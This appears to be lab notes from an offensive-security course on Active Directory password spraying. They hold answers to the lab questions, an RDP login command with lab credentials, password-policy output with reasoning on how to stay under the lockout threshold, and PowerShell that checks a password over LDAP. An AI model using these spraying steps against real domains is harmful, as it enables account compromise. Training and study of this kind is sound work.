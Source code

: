 Topics: AD Password Attacks
Questions
Follow the steps outlined in this section and spray the password Nexus123! with the three different tools introduced in this section. What is the minimum password length required in the target domain?
# Answer
Minimum password length:                              7

Questions 2
Spray the credentials of pete against all domain joined machines with crackmapexec. On which machine is pete a local administrator?
# Answer
CLIENT76


# Access to the RDP and open powershell in administrator mode   
xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.163.75

PS C:\Users\jeff> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              7
Length of password history maintained:                24
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30

# Lockout threshold indicates a limit of fice login attempts before lockout. Which means we can safely attempt four logins before trigerring a lockout.
# Lockout observation window (minutes) every 30 minutes after the last failed login, we can make additional attempts
# So we could attempt 192 logins in a 24-hour period against every domain user without trigerring a lockout.

# In the Module Active Directory Introduction and Enumeration, we used the DirectoryEntry constructor without arguments, but we can provide three arguments, including the LDAP path to the domain controller, the username, and the password:

PS C:\Users\jeff> $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
PS C:\Users\jeff> $PDC = ($domainObj.PdcRoleOwner).Name
PS C:\Users\jeff> $SearchString = "LDAP://"
PS C:\Users\jeff> $SearchString += $PDC + "/"
PS C:\Users\jeff> $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
PS C:\Users\jeff> $SearchString += $DistinguishedName
PS C:\Users\jeff> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
... # Account show the password is correct
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
...
